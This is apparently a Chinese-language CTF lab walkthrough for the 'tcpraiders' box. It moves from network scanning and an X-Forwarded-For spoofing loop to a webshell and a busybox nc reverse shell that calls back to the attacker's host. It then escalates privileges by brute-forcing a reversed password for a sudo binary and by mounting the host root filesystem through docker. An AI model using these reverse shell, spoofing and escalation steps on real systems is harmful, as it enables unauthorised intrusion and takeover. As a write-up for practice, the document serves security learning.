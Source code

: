 # **一、信息收集**

## **1. 主机发现**

首先在本地网络中使用 `arp-scan` 扫描本地网络，以确定目标主机的IP地址。

```bash
┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -l
...
192.168.205.146        08:00:27:39:c8:97       PCS Systemtechnik GmbH
...
```

从扫描结果可知，目标靶机的IP地址为 `192.168.205.146`。

## **2. 端口扫描**

使用 `nmap` 对目标主机进行全端口扫描，以识别开放的服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p0-65535 192.168.205.146
...
0/tcp open  unknown
...
```

0端口是不允许浏览器访问的，所以转发一下

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ socat TCP-LISTEN:8000,fork TCP4:192.168.205.146:0 &    
[1] 23767
```

# **二、漏洞发现与初始访问**

## 1.Web

访问本地8000端口

![image-20250815112328650](http://7r1UMPHK.github.io/image/20250815213356794.webp)

尝试curl助力链接显示助力成功，并且重新curl显示助力过了，应该是存在IP检测的问题。测试发现，该IP检测只检测IP地址的前16位，即 `x.x.1.1` 格式即可，那写批量助力脚本。

```perl
perl -MLWP::UserAgent -e '$ua=LWP::UserAgent->new(timeout=>1);for $i (0..255){for $j (0..255){$ip="$i.$j.1.1";$ua->get("http://192.168.205.128:8000/support?token=eb0c6310-07b2-4609-9f3e-4a59ce09949a","X-Forwarded-For"=>$ip);print "$ip\n";}}'
```

在脚本执行完成后，再次访问Web服务，发现之前隐藏的页面是Webshell。

## **2. 获取反弹Shell**

通过新出现的Webshell界面，我们执行反弹shell命令。由于目标系统为 Alpine Linux，它默认不包含 `bash`，因此我们使用 `busybox` 内置的 `nc` 和 `ash` 来获取反弹shell。

**本地Kali开启监听:**

```bash
nc -lvnp 8888
```

**在Webshell中执行Payload:**

```bash
busybox nc 192.168.205.128 8888 -e /bin/ash
```

执行后，在本地 `8888` 端口成功接收到 `runner` 用户的交互式Shell。

## **3. 稳定Shell**

```
python3 -c 'import pty; pty.spawn("/bin/ash")'
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/ash
stty rows 24 columns 80
```

# **三、权限提升**

## **1. runner -> luna**

获取初步Shell后，执行 `sudo -l` 查看当前用户的 `sudo` 权限。

```bash
/opt/web $ sudo -l
...
User runner may run the following commands on tcpraiders:
    (luna) NOPASSWD: /usr/sbin/luna
```

结果显示 `runner` 用户可以免密以 `luna` 用户身份运行 `/usr/sbin/luna` 程序。

尝试执行该程序，发现它会输出一段反向的英文字符串，并等待输入。

```bash
/opt/web $ sudo -u luna /usr/sbin/luna
.yranoitcid eht ni semit 511 dnuof neeb sah tI .kaew oot si drowssap ruoY :TRELA

# 使用rev命令反转字符串
/opt/web $ sudo -u luna /usr/sbin/luna | rev
ALERT: Your password is too weak. It has been found 115 times in the dictionary.
```

这明显是一个密码验证程序。程序逻辑可能是将用户输入与某个正确密码进行比较。考虑到提示信息，该程序可能将用户的输入进行反向处理。因此，我们需要一个反向的字典进行爆破。

我们使用 `rockyou.txt` 字典，将其整本反转后，通过管道符和循环来爆破密码。

```bash
# 在/tmp目录准备反转后的字典
cd /tmp
wget http://192.168.205.128/rockyou.txt
rev rockyou.txt > pass

# 执行爆破脚本
echo 'hold on...' && while read p; do echo "$p" | sudo -u luna /usr/sbin/
luna | grep -q tcerrocnI || { echo "[+] Found: $p"; break; }; done < pass
hold on...
/tmp $ 
[+] Found: ebyam
```

成功找到密码为 `ebyam`。现在，我们执行 `/usr/sbin/luna` 并输入该密码，成功切换到 `luna` 用户。

```bash
/opt $ sudo -u luna /usr/sbin/luna
 drowssaP: ebyam
/opt $ id
uid=1001(luna) gid=1001(luna) groups=1001(luna)
```

## **2. luna -> root**

在 `luna` 用户的shell中，再次执行 `sudo -l`。

```bash
/opt $ sudo -l
...
User luna may run the following commands on tcpraiders:
    (ALL) NOPASSWD: /usr/bin/docker build *, /usr/bin/docker run *
```

发现 `luna` 用户可以免密以 `root` 权限执行任意 `docker build` 和 `docker run` 命令。这是一个典型的提权路径。由于靶机可以访问外网，我们可以直接拉取一个镜像来利用。

我们利用 `docker run` 命令，将宿主机的根目录 `/` 挂载到容器的 `/mnt` 目录，然后在容器内执行 `chroot /mnt`，从而获得宿主机的 `root` shell。

```bash
/opt $ sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
...
Status: Downloaded newer image for alpine:latest
/ # id
uid=0(root) gid=0(root) groups=0(root),...
```

成功获取 `root` 权限。最后，读取位于用户目录和 `root` 目录下的 flag 文件。

```bash
/ # cat /root/root.flag /home/luna/user.flag
flag{641d35852cd6fdaab8a6a621d40c3d5ac2b453aa}
flag{1b925e677f649ce856f61e3846466252e75cc179}
```


